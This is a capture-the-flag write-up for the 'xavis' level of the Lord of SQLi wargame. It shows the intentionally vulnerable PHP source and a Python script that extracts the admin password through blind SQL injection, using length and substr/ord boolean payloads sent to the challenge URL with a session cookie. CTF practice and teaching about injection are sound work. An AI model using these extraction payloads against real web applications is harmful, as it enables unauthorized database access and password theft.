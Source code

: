 # xavis

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

Here we have to bruteforce the password. But when we brute force normally we are not getting the password. So we suspect the password is not just made of english alphabets. So I wrote a script for that

```python
import requests
import string
import codecs

session = requests.Session()

url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw=' or (length(pw)={});%23"
cookies = {"PHPSESSID": "t7lk6agpg5227q87cropdh21bo"}
for i in range(100):
   print(i,url.format(i))
   r=requests.get(url.format(i),cookies=cookies)
   if('Hello admin' in r.text[:200]):
       leng=i
       print("Length", i)
       break

url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw=' or id='admin' and (substr(ord(substr(pw,{},1)),{},1)='{}');%23"
w=""
for i in range(1,leng+1):
    pw=""
    for j in range(1,6):
        for k in "0123456789":
            print(i,url.format(i,j,k))
            r = requests.get(url.format(i,j,k), cookies=cookies)
            if('Hello admin' in r.text[:200]):
                pw += k
                print("wtf :", pw)
                break
    w+=chr(int(pw))
    print(pw,w)
print("Password :",w)
```


It gave the password as `우왕굳` and giving that in the url solved the level

